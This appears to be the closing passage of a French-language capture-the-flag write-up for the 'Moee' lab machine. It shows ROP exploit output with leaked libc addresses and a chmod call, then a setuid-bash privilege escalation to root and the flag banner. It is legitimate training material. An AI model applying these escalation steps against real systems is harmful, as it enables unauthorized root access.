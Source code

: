 ```plain
[*] pop rdi; ret  gadget: 0x4005e3 
[*] pop rsi; pop r15; ret  gadget: 0x4005e1 
[*] Size of ROP: 1128 
Welcome to Exploitation&Pwning world back day's from Moomin's time . 

Let's see what you can use to get the root of this box. 
[*] Leaked LIBC address,  puts: 0x7f51994ca990 
[*] LIBC base @ 0x7f519945f000 
[*] chmod 0x7f519953a800
```

Et c'est le BUT !  

```plain
Joxter@moee:~$ ls -l /bin/bash  
-rwsr-sr-x 1 root root 1029624 Mar 25  2019 /bin/bash 
Joxter@moee:~$ /bin/bash -p 
bash-4.3# id 
uid=1000(Joxter) gid=1000(Joxter) euid=0(root) egid=0(root) groups=0(root),1000(Joxter),1002(devsec) 
bash-4.3# cd /root 
bash-4.3# ls -al 
total 48 
drwx------  3 root root 4096 Nov 28  2020 . 
drwxr-xr-x 22 root root 4096 Nov 11  2020 .. 
lrwxrwxrwx  1 root root    9 Nov 20  2020 .bash_history -> /dev/null 
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc 
drwxr-xr-x  4 root root 4096 Nov 18  2020 .cache 
-rw-r--r--  1 root root 1006 Nov 18  2020 flag4.txt 
-rw-------  1 root root   44 Nov  8  2020 .lesshst 
-rw-------  1 root root 5625 Nov 28  2020 .mysql_history 
-rw-r--r--  1 root root  140 Nov 19  2007 .profile 
-rw-r--r--  1 root root   66 Nov 16  2020 .selected_editor 
-rw-------  1 root root 6963 Nov 22  2020 .viminfo 
bash-4.3# cat flag4.txt  
( )   ( )                                            
`\`\_/'/'_    _   _       _ _  _ __   __        _ _  
  `\ /'/'_`\ ( ) ( )    /'_` )( '__)/'__`\    /'_` ) 
   | |( (_) )| (_) |   ( (_| || |  (  ___/   ( (_| | 
   (_)`\___/'`\___/'   `\__,_)(_)  `\____)   `\__,_) 

 _                                    _  
(_ )                                 ( ) 
 | |    __     __     __    ___     _| | 
 | |  /'__`\ /'_ `\ /'__`\/' _ `\ /'_` | 
 | | (  ___/( (_) |(  ___/| ( ) |( (_| | 
(___)`\____)`\__  |`\____)(_) (_)`\__,_) 
            ( )_) |                      
             \___/'                      
Congratulation!! 

Hope you enjoyed playing my first machine "Moee".
I too enjoyed creating this box and just wanted to give a huge shoutout to @DCAU7 for helping me while creating this machine.
Also like to thanks to all those who have taken time to complete this box. 

You can ping me at twitter @gr4n173.
```


*Published January 30 2022 at 18:25*